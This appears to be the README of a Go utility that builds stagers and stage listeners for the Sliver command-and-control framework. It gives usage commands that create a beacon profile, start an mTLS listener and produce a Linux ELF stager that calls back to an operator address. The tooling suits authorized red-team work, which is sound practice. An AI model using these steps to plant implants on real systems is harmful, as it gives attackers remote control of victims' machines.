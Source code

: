 # Sliver Stage Helper

A utility tool that assists with the creation and management of stagers for the [Sliver](https://github.com/BishopFox/sliver) Command & Control (C2) framework.

## Overview

Sliver Stage Helper provides functionality to:

- Generate stagers for different operating systems and architectures (current is linux/Windows x64)
- Start sliver stage listener (current: is TCP)

## Features

a solution for https://github.com/BishopFox/sliver/issues/1734

## Usage

To use the Sliver Stage Helper library in your Go project:

```bash
go install github.com/Esonhugh/sliver-stage-helper@latest
```


1. (sliver) profiles new beacon --mtls 10.0.0.66:6789  -o linux --arch amd64 linux64_profile
2. (sliver) mtls -l 6789
3. export SLIVER_CLIENT_CONFIG=~/.sliver-client/configs/op.json
2. sliverStager startListen -p linux64_profile -l tcp://10.0.0.66:4444
3. sliverStager stagerOne -l tcp://10.0.0.66:4444 -f elf -o 1.elf 

## Requirements

- Go 1.23.5 or higher
- Sliver C2 Framework (for server operations) and an operator config
- msfvenom in PATH
